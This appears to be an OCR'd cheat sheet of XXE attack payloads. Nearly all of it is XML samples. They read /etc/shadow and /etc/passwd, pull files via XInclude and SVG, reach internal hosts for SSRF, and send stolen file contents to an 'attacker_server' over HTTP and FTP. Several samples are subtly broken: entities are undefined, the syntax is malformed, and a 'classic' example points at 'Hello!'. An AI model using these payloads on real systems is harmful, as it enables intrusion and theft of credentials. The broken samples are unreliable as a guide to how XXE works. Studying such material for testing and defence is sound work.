 **XML and XXE Attack Basics**
- XML documents can use external entities to access local or remote content through URLs. When an entity is preceded by a SYSTEM keyword, it is an external entity.

**Example of Including a Local File**
- In this example, an external entity named "file" is declared with the value from "file:///example.txt" on the local filesystem:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY file SYSTEM "file:///example.txt">
]>
<example>&file;</example>
```

**Opening `/etc/shadow` File on the Server**
- An example where an attacker attempts to open the `/etc/shadow` file on the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY file SYSTEM "file:///etc/shadow">
]>
<example>&file;</example>
```

**Classic XXE Attack**
- A classic XXE attack example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "Hello!">
]>
<example>&test;</example>
```

**XXE via XInclude**
- An example of exploiting XXE using XInclude:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**Outbound XXE**
- An example of an XXE payload that sends data to an attacker's server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
```

**Embedding XXE in Image (SVG)**
- An example of embedding XXE in an SVG image:

```xml
<svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

**XInclude Attacks**
- In cases where you can control one entity but not the whole document, you can use XInclude attacks:

```xml
<example xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```

**Launching SSRF via XXE**
- Examples of launching SSRF via XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY file SYSTEM "http://10.0.0.1:80">
]>
<example>&file;</example>

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY file SYSTEM "file:///etc/shadow">
  <!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">
]>
<example>&exfiltrate;</example>
```

**DOS with XXE**
- An example of performing a denial of service (DOS) attack using XXE:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ELEMENT example ANY>
  <!ENTITY lol "lol">
  <!-- Define multiple entities to create a DOS -->
]>
<example>&lol9;</example>
```

**Bypassing Hardened XML Parsers**
- A way to bypass XML parsers that are hardened:

```xml
<!ENTITY % file SYSTEM "file:///passwords.xml">
<![CDATA[%file;]]>
```

**Using PHP URL Wrapper**
- An example of using the PHP URL wrapper to exfiltrate data:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<![CDATA[%file;]]>
```

**Exfiltrating Using FTP Server**
- An example of exfiltrating data using an FTP server:

```xml
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'ftp://attacker_server:2121/?%file;'>">
<![CDATA[%ent;]]>
```

Please note that these are examples for educational purposes and should not be used for malicious activities. Always adhere to responsible disclosure practices.
